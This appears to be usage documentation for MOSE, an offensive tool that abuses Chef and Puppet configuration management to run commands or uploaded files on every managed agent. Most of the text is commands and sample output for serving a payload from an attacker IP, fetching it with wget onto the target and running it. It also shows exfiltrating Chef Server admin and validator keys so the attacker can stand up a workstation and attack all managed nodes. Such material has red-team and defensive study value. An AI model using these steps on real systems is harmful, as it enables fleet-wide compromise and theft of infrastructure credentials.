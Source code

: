 ## Instructions to run a command
This will allow you specify a command that will be run on all target agents.

1. Run MOSE with the following options:
```
./mose <target CM> -c <command>
```
For example:
```
./mose chef -c "echo HELLO >> /tmp/friendlyFile.txt"
```

2. On the target, download the payload that is being served (assuming you opted to have MOSE serve it for you) and give it execute permissions.

3. Run the payload:
```
./<cm target>-<cm os>
```
For example:
```
./chef-linux
```

If you want to clean up after you're done, run the payload again with the `-c` option.

## Instructions to upload and run a file
This will allow you to specify a script or a binary that will be run on all target agents.

1. Run MOSE with the following options: 
```
./mose puppet -u <name of file>
```
For example:
```
./mose puppet -u /tmp/notevil.sh
```

2. On the target, download the payload that is being served (assuming you opted to have MOSE serve it for you) and give it execute permissions.

3. Extract the payload:
```
tar -vxf files.tar
```

4. Run the payload:
```
./<cm target>-<cm os>
```
For example:
```
./puppet-linux
```

If you want to clean up after you're done, run the payload again with the `-c` option. For example:
```
./puppet-linux -c
```

## Instructions to run against a Chef Server
If you land on a Chef Server (as opposed to a Chef Workstation), this will allow you to steal the files that you'll need to generate a workstation of your own and use it to attack the assets managed by the target Chef Server.

1. Run MOSE with the following options: 
```
./mose chef -c <command> -l <your ip address> -r <chef server hostname>:<chef server IP>
```
For example (using the [vagrant test environment](https://github.com/master-of-servers/chef-test-lab/tree/master/vagrant)):
```
./mose chef -c "touch /tmp/helloserver.txt && echo Hello, I am a file created by MOSE for Chef Server. >> /tmp/helloserver.txt" -l 192.168.58.29 -r chef-server:10.42.42.10
```

2. On the Chef Server, download the payload that is being served (assuming you opted to have MOSE serve it for you) and give it execute permissions.
For example (using the [vagrant test environment](https://github.com/master-of-servers/chef-test-lab/tree/master/vagrant)):
```
wget http://192.168.58.29:8090/chef-linux
```

3. Make it executable:
```
chmod +x chef-linux
```

4. Run the payload:
```
./chef-linux
```

5. Back on your machine, answer the prompts:
```
2020-09-26T18:30:59Z MSG : Is your target a chef workstation? [Y/n/q]
n
2020-09-26T18:31:09Z MSG : Is your target a chef server? [Y/n/q]
Y
2020-09-26T18:31:10Z MSG : Listener being served at http://192.168.58.29:9090/chef-linux for 60 seconds
```
6. Wait for the files that you need to take to be exfilled. 
For example:
```
2020-09-26T18:31:13Z INF : Successfully uploaded my_org

2020-09-26T18:31:13Z INF : Successfully exfilled admin.pem
2020-09-26T18:31:13Z INF : Successfully exfilled my_org-validator.pem

2020-09-26T18:32:10Z INF : Web server shutting down...
```
7. Eventually you will be dropped into the workstation, and you proceed with your attack from there as you would normally.
For example:
```
2020-09-26T18:34:41Z INF : Running knife ssl fetch, please wait...
2020-09-26T18:34:47Z MSG : The following nodes were identified: chef-agent-1 chef-agent-2 chef-agent-3
2020-09-26T18:34:47Z MSG : Do you want to target specific chef agents? [Y/n/q]
```

**Note:** You will get an error about the stealing of secrets - reason being that you don't have any on this workstation (you just stood it up yourself):
```
2020-09-26T19:06:38Z ERR : Error while getting the vault list error="/opt/chefdk/bin/knife [vault list] ERROR: Chef::Exceptions::InvalidDataBagPath: Data bag path '/root/.chef/data_bags' is invalid\n exit status 100"
```